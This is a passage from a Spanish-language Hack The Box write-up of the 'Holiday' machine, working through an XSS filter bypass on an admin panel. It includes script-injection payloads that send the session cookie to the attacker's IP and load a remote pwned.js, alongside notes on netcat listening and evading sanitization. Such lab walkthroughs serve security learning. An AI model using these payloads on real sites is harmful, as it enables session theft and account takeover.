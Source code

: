 ```null
<img src="asd><script>alert(1)</script>">
```

Tras enviarlo, queda de la siguiente manera:

<img src="/writeups/assets/img/Holiday-htb/25.png" alt="">

Otra cosa a tener en cuenta es que de mi lado no me está interpretando las etiquetas, pero por la parte de administrador sí. A la hora de comprobar si esto último ha funcionado no vale desde mi interfaz web, por lo que tengo que cargar un script remoto y ponerme en escucha con netcat.

Para indicar que quiero enviar la cookie como un argumento para un parámetro por GET, lo puedo hacer de la siguiente forma:

```null
<img src="asd><script>document.location("http://10.10.16.6/?cookie=' + document.cookie + '</script>">
```

De nuevo, mi input se ha sanitizado y ha transformado ciertos caracteres. Esto puede ser debido a que ha detectado la string document.location y se ha salido de la condición de la imagen

<img src="/writeups/assets/img/Holiday-htb/26.png" alt="">

Puedo probar otra alternativa que sería cargar un script alojado de mi lado que se encargue de enviarme la cookie de sesión

En vez de utilizar document.location, utilizaré document.write

```null
<img src="asd><script>document.write('<script src="http://10.10.16.6/pwned.js"></script>');</script>">
```

Sigo con el mismo problema

<img src="/writeups/assets/img/Holiday-htb/27.png" alt="">

En JavaScript, existe una forma de extraer caracteres a partir de funciones ya definidas

<img src="/writeups/assets/img/Holiday-htb/28.png" alt="">
